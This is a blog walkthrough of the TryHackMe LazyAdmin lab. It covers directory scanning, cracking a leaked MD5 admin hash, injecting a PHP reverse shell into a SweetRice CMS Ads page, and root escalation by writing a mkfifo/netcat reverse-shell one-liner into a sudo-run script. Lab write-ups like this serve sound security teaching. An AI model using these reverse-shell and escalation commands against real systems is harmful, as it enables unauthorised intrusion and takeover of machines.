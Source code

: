 ### TryHackMe Walkthrough: LazyAdmin

<div id="copyUrl"></div>

In this blog post, I'll walk you through my experience tackling the <a href="https://tryhackme.com/r/room/lazyadmin" target="_blank">TryHackMe LazyAdmin</a> room. It's an engaging challenge that will take us from reconnaissance to gaining root access. If you're eager to learn about network scanning, password cracking, and privilege escalation, read on!

##### Initial Reconnaissance

To kick things off, I connected to the TryHackMe network using OpenVPN on my Kali virtual machine. With the target machine up and running, I started with an **_Nmap_** scan to identify open ports and services:

<pre class="bg-body-tertiary border p-2 shadow-sm">nmap -sV -vv &lt;remote-ip&gt;</pre>

The scan revealed two open ports: SSH (22) and HTTP (80).

##### Exploring the Website

Navigating to the website's homepage, I found the default Apache login page with nothing of interest in the source pre. To uncover any hidden directories, I ran a **_Gobuster_** scan using the common.txt wordlist:

<pre class="bg-body-tertiary border p-2 shadow-sm">gobuster dir -u http://&lt;remote-ip&gt; -w /usr/share/wordlists/dirb/common.txt</pre>

This scan unveiled a few directories, with `/content` catching my eye. Inside, I discovered the installation page for a CMS called SweetRice.

##### Digging Deeper

To find more hidden gems, I ran another **_Gobuster_** scan within the `/content` directory:

<pre class="bg-body-tertiary border p-2 shadow-sm">gobuster dir -u http://&lt;remote-ip&gt;/content -w /usr/share/wordlists/dirb/common.txt</pre>

This revealed additional directories, including `/as` (a login page) and `/inc` (holding some promising files). Among these, the `mysql_backup` directory contained a backup file, which I promptly downloaded.

##### Cracking the Password

Inside the backup file, I found an MD5 hashed password. To crack it, I used **_hashcat_** with the rockyou.txt wordlist:

<pre class="bg-body-tertiary border p-2 shadow-sm">hashcat -m 0 pash /usr/share/wordlists/rockyou.txt</pre>

Within moments, I had the password in plain text.

##### Gaining Access

With the cracked password, I logged into the SweetRice admin panel. From here, I needed to leverage my access to get a reverse shell. I found an Ads page where I could inject a **_PHP reverse shell_** from PentestMonkey. After replacing the IP and port with my own, I saved it.

##### Catching the Shell

I started a Netcat listener on my machine to catch the reverse shell:

<pre class="bg-body-tertiary border p-2 shadow-sm">rlwrap nc -lvnp 4444</pre>

Navigating to the shell file in the `/inc/ads` directory executed my shell, and my listener caught it. I upgraded my shell using Python for better interaction:

<pre class="bg-body-tertiary border p-2 shadow-sm">python -c 'import pty; pty.spawn("/bin/bash")'</pre>

##### Finding the User Flag

Listing the users on the machine, I found a user named _itguy_ and accessed their directory to retrieve the user flag.

##### Escalating to Root

To escalate privileges, I listed my sudo permissions:

<pre class="bg-body-tertiary border p-2 shadow-sm">sudo -l</pre>

I could run a Perl script called `backup.pl`, which in turn executed `copy.sh`. This copy.sh script contained a reverse shell, and I replaced its IP and port with my own using echo:

<pre class="bg-body-tertiary border p-2 shadow-sm">echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your IP> 4444 >/tmp/f' > /etc/copy.sh</pre>

After starting another Netcat listener, I executed the Perl script:

<pre class="bg-body-tertiary border p-2 shadow-sm">sudo /usr/bin/perl /home/itguy/backup.pl</pre>

My listener caught the shell, and I had root access. I navigated to the root directory and retrieved the root flag.

Lessons Learned
This challenge highlighted several key points:

- Always look for publicly accessible directories and files.
- Check for scripts executable by sudo for privilege escalation.

##### Conclusion

The LazyAdmin room was a thrilling experience that tested my skills in various aspects of cybersecurity. From initial access through backup file exploitation to escalating privileges using a cleverly placed script, it was a comprehensive exercise.

If you enjoyed this walkthrough or have any questions, feel free to reach out. Happy hacking!

For more insights and detailed explorations into the world of cybersecurity, visit [CipherVoyage](https://vickie-ks.github.io/CipherVoyage/) and stay updated with the latest in cyber defense strategies.

_Author: <a href="https://github.com/vickie-ks" target="_blank">vickie-ks</a>_
